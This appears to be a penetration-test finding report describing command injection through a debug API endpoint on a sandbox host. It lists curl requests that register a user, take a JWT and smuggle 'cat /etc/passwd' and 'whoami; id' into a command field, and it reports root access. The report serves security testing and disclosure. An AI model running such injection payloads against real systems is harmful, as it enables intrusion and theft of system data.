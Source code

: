 ### INJ-VULN-01: Command Injection via Debug API Endpoint

**Summary:**

- **Vulnerable location:** HTTP POST `/api/debug` endpoint at `http://capital-api.sandbox.local:8000/api/debug`
- **Overview:** Direct command injection through insufficient input validation allowing arbitrary command execution with root privileges
- **Impact:** Complete system compromise with root-level access, sensitive data extraction, and potential for data exfiltration or system destruction
- **Severity:** Critical

**Prerequisites:**

- Valid JWT authentication token (easily obtainable through user registration)
- HTTP access to port 8000 on the target system

**Exploitation Steps:**

1. **Register a user account to obtain JWT token:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/users>" \\
    -H "Content-Type: application/json" \\
    -d '{"user":{"username":"exploit9999","email":"exploit9999@test.com","password":"testpassword"}}'
    
    ```
    
    Response includes JWT token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImV4cGxvaXQ5OTk5IiwiZXhwIjoxNzU5MTc0NTc0LCJzdWIiOiJhY2Nlc3MifQ.7Lfo9DRWpaac_yOmBY1i73GzNH5m2zU6Cd1MZDvNrgE`
    
2. **Execute command injection to extract sensitive data:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/debug>" \\
    -H "Content-Type: application/json" \\
    -H "Authorization: Token [JWT_TOKEN]" \\
    -d '{"body":{"command":"uptime; cat /etc/passwd"}}'
    
    ```
    
3. **Confirm root-level privilege escalation:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/debug>" \\
    -H "Content-Type: application/json" \\
    -H "Authorization: Token [JWT_TOKEN]" \\
    -d '{"body":{"command":"uptime; whoami; id; pwd"}}'
    
    ```
    

**Proof of Impact:**

**Complete System Compromise Achieved:**

- **Root Access Confirmed:** Command execution as root user (uid=0, gid=0)
- **Sensitive Data Extracted:** Complete `/etc/passwd` file containing all system users
- **System Information Gathered:** Working directory `/capital`, system uptime, load averages
